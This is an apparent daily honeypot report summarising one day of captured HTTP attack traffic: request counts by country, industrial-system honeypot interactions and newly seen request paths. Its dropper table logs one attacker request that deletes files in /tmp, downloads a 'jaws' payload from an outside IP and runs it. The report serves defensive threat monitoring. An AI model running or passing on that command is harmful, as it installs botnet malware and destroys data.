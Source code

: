 ```yaml
---
title: "Report: 2025-05-28 "
date: 2025-05-28
desciption: "Report: 2025-05-28" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-28 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 851 requests were recorded during the day, originating from 1 different countries, with a peak of 241 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| KR               | Germany            |
| SG               | Germany            |
| US               | Germany            |
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                      |
|:---------------|:-----------------------------------------------------------------------------|
| 47.101.204.123 | GET /shell?cd+/tmp;rm+-rf+*;wget+ 129.159.107.197/jaws;sh+/tmp/jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                        |
|----:|----------------------:|:-----------------------------------------------|
| 119 |                     1 | POST /cgi-bin/webra_dbfile_upload.cgi HTTP/1.1 |
| 211 |                     1 | GET /OdinHttpCall1748464901 HTTP/1.1           |
| 215 |                     1 | GET /Odin/http/call1748464901 HTTP/1.1         |
| 216 |                     1 | GET /odinhttpcall1748464901 HTTP/1.1           |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   241 | US                 |
|  1 |                    94 | DE                 |
|  2 |                    90 | PL                 |
|  3 |                    84 | JP                 |
|  4 |                    69 | CN                 |
|  5 |                    53 | HK                 |
|  6 |                    33 | NL                 |
|  7 |                    31 | BG                 |
|  8 |                    28 | GB                 |
|  9 |                    23 | LT                 |
| 10 |                    18 | FR                 |
| 11 |                    14 | CA                 |
| 12 |                    12 | IN                 |
| 13 |                     6 | VE                 |
| 14 |                     5 | SC                 |
| 15 |                     5 | ZA                 |
| 16 |                     4 | VN                 |
| 17 |                     4 | BE                 |
| 18 |                     4 | CH                 |
| 19 |                     4 | KR                 |
| 20 |                     3 | GH                 |
| 21 |                     3 | PT                 |
| 22 |                     3 | ID                 |
| 23 |                     2 | TR                 |
| 24 |                     2 | SG                 |
| 25 |                     2 | RU                 |
| 26 |                     2 | IR                 |
| 27 |                     2 | UA                 |
| 28 |                     2 | TH                 |
| 29 |                     2 | ES                 |
| 30 |                     1 | AR                 |
| 31 |                     1 | MX                 |
| 32 |                     1 | IT                 |
| 33 |                     1 | AO                 |
| 34 |                     1 | IE                 |
| 35 |                     1 | AL                 |
